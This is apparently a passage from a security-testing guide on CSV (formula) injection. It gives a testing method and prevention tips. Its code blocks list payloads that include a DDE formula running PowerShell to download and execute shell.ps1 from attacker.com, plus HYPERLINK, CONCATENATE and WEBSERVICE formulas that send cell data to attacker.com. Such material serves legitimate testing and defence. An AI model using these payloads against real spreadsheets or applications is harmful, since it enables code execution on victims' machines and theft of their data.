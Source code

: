 
## CSV Injection Testing

CSV injection (also known as Formula injection) occurs when applications allow user input to be exported to spreadsheet formats without proper sanitization.

### Testing Methodology

#### 1. Payload Injection
```bash
# Basic calculation payload
=4+4

# System command execution (older Excel versions)
=cmd|'/c calc'!A0

# Dynamic Data Exchange (DDE) payload  
=cmd|'/c powershell.exe IEX (wget attacker.com/shell.ps1)'!A0

# Hyperlink-based payload
=HYPERLINK("http://attacker.com/harvest?data="&A1,"Click here")
```

#### 2. Testing Process
1. **Input Injection**: Enter formula payloads in form fields
2. **Export Function**: Use application's export-to-CSV feature
3. **File Analysis**: Open exported file in Excel/LibreOffice
4. **Result Verification**: Check if formulas were executed

#### 3. Advanced Payloads
```bash
# Data exfiltration
=CONCATENATE("http://attacker.com/harvest?",A1,B1,C1)

# Local file read (context-dependent)
=WEBSERVICE("http://attacker.com/"&CONCATENATE(A1:A100))

# Multi-cell reference
=SUM(A1:Z999)*0+cmd|'/c calc.exe'!A0
```

### Prevention Strategies
- Input sanitization for special characters (`=`, `+`, `-`, `@`)
- CSV escaping with single quotes (`'=formula` becomes literal)
- Content Security Policy for web-based exports
- User education about macro security

---

## Automated Analysis Tools
